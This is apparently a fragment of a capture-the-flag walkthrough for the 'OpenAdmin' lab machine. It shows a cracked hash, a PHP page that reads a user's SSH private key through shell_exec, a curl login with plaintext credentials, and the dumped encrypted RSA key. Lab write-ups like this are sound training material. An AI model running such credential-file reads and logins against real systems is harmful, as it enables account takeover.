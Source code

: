 
### https://crackstation.net/ :
```
00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1
sha512
Revealed
```


### `/var/www/internal$ cat main.php`
```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```


### `/var/www/internal$ curl -u jimmy:n1nj4W4rri0R! 127.0.0.1:52846/main.php`
```
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
